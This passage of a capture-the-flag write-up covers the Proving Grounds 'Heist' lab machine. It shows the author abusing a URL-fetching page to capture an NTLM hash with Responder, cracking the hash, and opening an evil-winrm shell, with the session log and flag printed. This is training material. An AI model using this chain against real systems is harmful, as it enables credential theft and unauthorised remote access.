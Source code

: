 I checked port 8080 and looks like a Web Browser URL entering page 🔻

![Image](Pasted%20image%2020240616170044.png)

I redirecting me to another location through `url` parameter 🔻

![Image](Pasted%20image%2020240616170100.png)

That gives me access to check for NTLM relay attack by specifying the URL of attacker machine and catching the response as password hash from <mark style="background: #FF5582A6;">responder</mark> Tool like this 🔻

![Image](Pasted%20image%2020240616165958.png)

![Image](Pasted%20image%2020240616165945.png)
_responder Tool that catches the NTLM hash_

Now lets crack this hash with John The Ripper Tool.

![Image](Pasted%20image%2020240616170610.png)

I got the password lets check if this user <span style="color:#f04276">hiest</span> can access `winrm` session or not.

![Image](Pasted%20image%2020240616171403.png)

```powershell
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Practice/Heist]
└─$ evil-winrm -i 192.168.182.165  -u enox -p <PASSWORD>
                                        
Evil-WinRM shell v3.5

*Evil-WinRM* PS C:\Users\enox> tree /f /a
Folder PATH listing
Volume serial number is 5C30-DCD7
C:.
+---Desktop
|   |   local.txt
|   |   todo.txt
|   |
|   \---application
|       |   app.py
|       |
|       \---templates
|               error.html
|               index.html
|
+---Documents
+---Downloads
+---Favorites
+---Links
+---Music
+---Pictures
+---Saved Games
\---Videos
*Evil-WinRM* PS C:\Users\enox>
*Evil-WinRM* PS C:\Users\enox\Desktop> type local.txt
feed776dc465618634f06fcc4ce1c017
*Evil-WinRM* PS C:\Users\enox\Desktop> type todo.txt
- Setup Flask Application for Secure Browser [DONE]
- Use group managed service account for apache [DONE]
- Migrate to apache
- Debug Flask Application [DONE]
- Remove Flask Application
- Submit IT Expenses file to admin. [DONE]
```